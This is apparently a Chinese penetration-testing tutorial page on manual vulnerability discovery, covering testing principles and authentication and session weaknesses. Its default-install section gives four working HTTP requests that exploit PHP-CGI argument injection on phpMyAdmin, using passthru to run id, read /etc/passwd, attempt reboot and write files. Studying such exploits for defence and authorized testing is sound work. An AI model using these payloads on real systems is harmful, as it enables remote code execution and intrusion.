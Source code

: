 

# 手动漏洞挖掘

* [php反弹shell](./[8-10]--手动漏洞挖掘-php反弹shell.md)
* [命令执行漏洞](./[8-11]--手动漏洞挖掘-命令执行漏洞.md)
* [目录遍历、文件包含漏洞](./[8-12]--手动漏洞挖掘-目录遍历、文件包含漏洞.md)
* [文件上传漏洞](./[8-13]--手动漏洞挖掘-文件上传漏洞.md)
* [SQL注入漏洞](./[8-14]--手动漏洞挖掘-SQL注入漏洞.md)
* [XSS漏洞](./[8-15]--手动漏洞挖掘-XSS漏洞.md)
* [Xsser](./[8-16]--手动漏洞挖掘-Xsser.md)


---
* 手动漏洞挖掘的原则
* 漏洞的本质
* 身份认证漏洞
* 默认安装漏洞


## 手动漏洞挖掘的原则
1. 所有变量
1. 所有头
1. Cookie的变量
1. 逐个变量删除


## 漏洞的本质
1. 数据与指令的混淆
1. 对用户输入信息过滤不严判断失误，误将指令当数据

## 身份认证漏洞
* 针对身份认证
1. 使用常用弱口令/基于字典的密码暴力破解
1. 测试是否锁定账号
1. 测试基于手机号的用户名破解，可以在站内论坛收集用户信息
1. 查看错误秘密提升信息，可以判断用户名或者密码错误
1. 密码嗅探工具可以直接获取密码

* 会话 SessionID
1. Xss / cookie importer
1. SessionID in URL
1. 使用嗅探工具.
1. 测试 SessionID 是否是长期不变的
1. 破译 SessionID 生成算法
    1. Sequencer
    1. 私有算法
    1. 预判下一次登录时生成的 SessionID
    1. 登出后返回测试

* 密码找回时的漏洞
1. 在 URL 中存在密码的散列值，可以直接进行密码设置


## 默认安装漏洞
* phpMyAdmin/setup
1. Burpsuite 测试命令
``` 
POST http://10.10.10.132/phpMyAdmin/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input HTTP/1.1
 Host: 192.168.20.10

 <?php
 passthru('id');
 die(); #dir()终止后续的显示
 ?>
```


2. 查看权限
``` 
POST http://10.10.10.132/phpMyAdmin/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input HTTP/1.1
 Host: 192.168.20.10
 Content-Length: 64
 
 <?php
 passthru('id');
 passthru('cat /etc/passwd');
 die();
 ?>
```
3. 查看可以使用的命令
``` 
 POST http://10.10.10.132/phpMyAdmin/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input HTTP/1.1
 Host: 192.168.20.10
 Content-Length: 114
 
 <?php
 passthru('id');
 passthru('cat /etc/passwd');
 passthru('ls');
 passthru('reboot');	#非管理员权限无法重启
 die();
 ?>
```

4. 测试写入权限
``` 
POST http://10.10.10.132/phpMyAdmin/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input HTTP/1.1
 Host: 192.168.20.10
 Content-Length: 114
 
 <?php
 passthru('id');
 passthru('echo "123456789" > a.txt');
 passthru('cat a.txt');
 passthru('ls');
 die();
 ?>
```

